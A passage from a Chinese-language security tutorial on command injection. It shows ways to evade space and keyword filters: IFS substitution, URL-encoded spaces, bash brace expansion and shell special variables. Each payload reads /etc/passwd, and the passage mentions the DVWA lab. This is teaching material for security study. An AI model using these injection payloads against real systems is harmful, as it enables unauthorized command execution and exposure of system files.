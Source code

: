 导致执行失败。
你可以尝试以下几种方法去绕过。

- **IFS 分隔符**

IFS（Internal Field Seperator，内部域分隔符）是 shell 下的特殊环境变量，可以是空格、Tab、换行符或者其他自定义符号，如图 3 利用 IFS 分隔符成功读取到敏感文件。

复制代码

```
cat$IFS/etc/passwd
```

![图片3.png](https://s0.lgstatic.com/i/image/M00/92/BF/CgqCHmASi1CATWHbAARYJuJkPEw289.png)

图 3 利用 IFS 分隔符绕过空格限制

- **URL 编码**

可以在请求参数中用 ％20、+、%09(tab) 等方式来绕过：

复制代码

```
cat%20/etc/passwd

cat+/etc/passwd

cat%09/etc/passwd
```

- **{cmd,arg}**

在 Linux bash 环境中可以使用花括号 {cmd,arg} 扩展来绕过：

复制代码

```
{cat,etc/passwd}
```

这个依赖 bash 环境，并不是那么通用的方式，比如在 DVWA 靶场中就不适用。
**（3）黑名单绕过**

绕过黑名单就是先探测哪些是黑名单，尽量避开不用，如果还不行可以考虑以下方法。

- **shell 特殊变量**

先看下 shell 中的一些特殊变量：

![图片5.png](https://s0.lgstatic.com/i/image/M00/92/B4/Ciqc1GASi7mASyv4AAFgvRQXlzo668.png)
比如 cat 命令被禁，利用上述特殊变量，我们就可以这样构造来绕过：

复制代码

```
ca$1t /etc/passwd

cat$*t /etc/passwd

ca$@t /etc/passwd
```
